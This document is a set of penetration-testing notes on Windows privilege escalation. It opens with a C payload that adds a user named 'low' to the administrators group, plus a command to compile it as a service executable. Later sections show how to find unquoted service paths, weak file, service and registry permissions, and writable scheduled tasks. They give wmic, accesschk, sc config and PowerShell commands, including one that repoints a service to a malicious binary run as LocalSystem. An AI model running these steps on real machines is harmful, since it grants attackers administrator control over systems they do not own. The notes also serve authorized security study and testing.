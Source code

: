 
binary to put in service.exe

```
 cat useradd.c
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */
int main ()
{
 int i;
 i=system ("net localgroup administrators low /add");
 return 0;
}
```
 to compile
 
 `i686-w64-mingw32-gcc -o weakservice.exe useradd.c`



Services

Find services running with elevated privileges. Two main categories of vulnerabilities:
	- Weak service path
	- Weak permissions

. . .

Unquoted Service Path

If a privileged service is running and pointing to an unquoted service path with spaces, then Windows has to guess where the executable file is. It guesses in this order:

C:\Services\My | Spaced Directory\Service.exe   
C:\Services\My Spaced | Directory\Service.exe    
C:\Services\My Spaced Directory\Service.exe    

It assumes that each space, from left to right, is the dividing point between the executable and the arguments passed to that executable. So to exploit this situation, you could create a malicious executable and place it at the location below:

C:\Services\My.exe

To find services with spaces and without quotes, run the following CMD command:   
`wmic service get name,startname,startmode,pathname | findstr /i /v "c:\windows" | findstr /v """`    
Or try this alternative using regex:   
`wmic service get name,startname,startmode,pathname | findstr /r /c:"\\.* .*exe" | findstr /v """`

. . .

Weak Permissions Around Service   
	- Folder permissions -- replace executable   
	- Service permissions -- change executable path and executing account   
	- Registry permissions -- same through registry   

Folder Permissions   
To check folder permissions:   
`accesschk.exe -dv <username> <folder>`

To exploit, replace the executable with a malicious one

Service Permissions   
To check service permissions:   
`accesschk.exe -cv <username> <service_name>`

To check current service config:   
`sc qc <service_name>`

To modify service config:   
`sc config <service_name> binPath= "c:\path\to\malicious" obj= LocalSystem`

Registry Permissions   
Open regedit and navigate to:   
`Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<service_name>`

. . .

Scheduled Tasks

List scheduled tasks that aren't running as the current user:
get-scheduledtask | select * | where {$_.principal.userid -notlike "*$env:username*"} | format-table -property @{expression={$_.principal.userid}},taskpath,taskname,date

See what files are executed by a task (PowerShell):
$task = get-scheduledtask -taskname <task_name>
foreach ( $action in $task.actions ) { echo $action.execute }

Check permissions on those files:
accesschk.exe -v <username> <file>

If readable, then see what the executable is doing.
If writable, then replace with malicious.

. . .
